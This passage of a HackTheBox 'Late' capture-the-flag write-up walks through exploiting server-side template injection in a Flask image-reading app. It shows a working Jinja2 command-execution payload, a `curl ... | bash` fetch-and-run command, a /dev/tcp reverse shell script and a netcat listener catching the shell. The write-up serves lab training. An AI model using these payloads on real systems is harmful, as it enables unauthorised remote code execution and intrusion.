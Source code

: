 ```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat /home/shiro/Downloads/results.txt 
<p>Shiro
</p>     
```

# Exploitation

Since this was a Flask application, we should check whether it is vulnerable to SSTI. To test this, I used a payload text of `{{1+1}}`. Here was the result.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat /home/shiro/Downloads/results\(1\).txt
<p>2
</p>        
```

>   Note that the flask application might not read the image properly. To bypass this, we can either make the text wider with spaces in between the payload like `{ { 1 + 1 } }` and/or change the zoom level!

Yay! The application is vulnerable to SSTI. Lets use our handy [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to try out some payloads. I tried different payloads but this seems to work the best - `{{ cycler.__init__.__globals__.os.popen('id').read() }}`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat /home/shiro/Downloads/results\(2\).txt 
<p>uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)

</p>  
```

>   Note: I used this [tool](https://cloudconvert.com/txt-to-jpg) to convert the text to image instead as it seems to be more reliable than the previous tool.

Here’s our plan. 

-   We create a simple reverse shell script
-   Host the script on our own server 
-   Modify the SSTI payload that we found with this command - `curl http://10.10.14.4/rev.sh | bash`
-   Start a netcat listener
-   Upload the image to the application and wait for the listener to catch the shell

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# cat rev.sh                                
#!/bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.14.4/1234 <&1'

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.156 - - [20/Aug/2022 15:31:22] "GET /rev.sh HTTP/1.1" 200 -

- Netcat Listener -                                   
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Late]
└─# nc -nlvp 1234  
listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.156] 45300
bash: cannot set terminal process group (1227): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$ 
```